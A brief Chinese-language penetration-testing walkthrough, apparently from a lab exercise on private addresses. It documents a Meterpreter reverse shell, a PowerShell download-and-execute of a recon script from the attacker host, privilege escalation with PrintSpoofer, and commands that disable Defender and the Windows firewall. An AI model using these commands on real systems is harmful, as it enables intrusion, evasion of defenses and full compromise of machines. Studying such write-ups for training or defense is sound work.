 ### GetShell

```bash
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.49.96:8443
[!] https://192.168.49.96:8443 handling request from 192.168.96.132; (UUID: c37xx5nz) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.49.96:8443 handling request from 192.168.96.132; (UUID: c37xx5nz) Staging x64 payload (201308 bytes) ...
[!] https://192.168.49.96:8443 handling request from 192.168.96.132; (UUID: c37xx5nz) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.49.96:8443 -> 127.0.0.1) at 2021-08-27 06:37:30 +0000
```

## 信息收集及提权

### 获取稳定shell
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > execute -H -f notepad
Process 888 created.
meterpreter > migrate 888
[*] Migrating from 3560 to 888...
[*] Migration completed successfully.

### 环境收集
(new-object system.net.webclient).downloadstring('http://192.168.49.96:8080/HostRecon.ps1') | IEX
查看杀软：Invoke-HostRecon
查看是否LSA保护：Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
查看是否有app白名单：Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe

### 提权

whoami /priv

PrintSpoofer64.exe -i -c cmd.exe

获得了管理员权限
关闭杀软

```cmd
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true

NetSh Advfirewall set allprofiles state off
```
再已管理员身份执行met.exe 获得meterpreter shell

```bash
meterpreter > ps -S spoolsv
Filtering on 'spoolsv'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 2084  556   spoolsv.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe

meterpreter > migrate 2084
```
